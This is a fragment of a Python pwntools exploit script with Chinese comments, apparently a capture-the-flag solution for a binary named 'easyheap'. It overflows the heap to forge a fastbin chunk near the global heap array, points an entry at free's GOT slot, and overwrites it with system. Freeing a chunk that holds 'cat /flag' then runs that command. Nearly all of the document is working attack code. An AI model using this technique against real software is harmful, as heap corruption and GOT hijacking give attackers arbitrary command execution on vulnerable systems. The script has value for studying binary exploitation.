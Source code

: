 ```python
p.sendafter('Size of Heap : ', b'96\n')  
p.sendafter('Content of heap:', b'bbbb\n')  
  
#释放heap 1  
p.sendafter('Your choice :', b'3\n')  # free 1  
p.sendafter('Index :', b'1\n')  
  
#溢出到fastbins的heap 1  
#0x6020ad  
payload = p64(0x0) * 13 + p64(0x71) + p64(0x6020ad) + p64(0x0)  
p.sendafter('Your choice :', b'2\n')  
p.sendafter('Index :', b'0\n')  
p.sendafter('Size of Heap : ', b'1000\n')  
p.sendafter('Content of heap : ', payload)  
  
#再申请heap 1  
p.sendafter('Your choice :', b'1\n')  
p.sendafter('Size of Heap : ', b'96\n')  
p.sendafter('Content of heap:', b'\n')  
  
#将0x6020bd分配为heap 2  
#readelf -a easyheap |grep heap 可以看到  
#78: 00000000006020e0    80 OBJECT  GLOBAL DEFAULT   26 heaparray  
p.sendafter('Your choice :', b'1\n')  
p.sendafter('Size of Heap : ', b'96\n')  
p.sendafter('Content of heap:', b'\n')  
  
#修改heap 2，heaparry的首地址(heap 0)变成free的got表，可以将free的动态库地址改成system  
payload = b'a' * 35 + p64(free_got)  
p.sendafter('Your choice :', b'2\n')  
p.sendafter('Index :', b'2\n')  
p.sendafter('Size of Heap : ', b'1000\n')  
p.sendafter('Content of heap : ', payload)  
  
#将free的动态库地址改成system  
p.sendafter('Your choice :', b'2\n')  
p.sendafter('Index :', b'0\n')  
p.sendafter('Size of Heap : ', b'1000\n')  
p.sendafter('Content of heap : ', p64(system_plt))  
  
#heap 1修改内存为的sh命令  
binsh = b'cat /flag\x00'  
p.sendafter('Your choice :', b'2\n')  
p.sendafter('Index :', b'1\n')  
p.sendafter('Size of Heap : ', b'1000\n')  
p.sendafter('Content of heap : ', binsh)  
  
#调用free(addr)->system('/bin/sh')  
p.sendafter('Your choice :', b'3\n')  
p.sendafter('Index :', b'1\n')  
  
p.close()
```
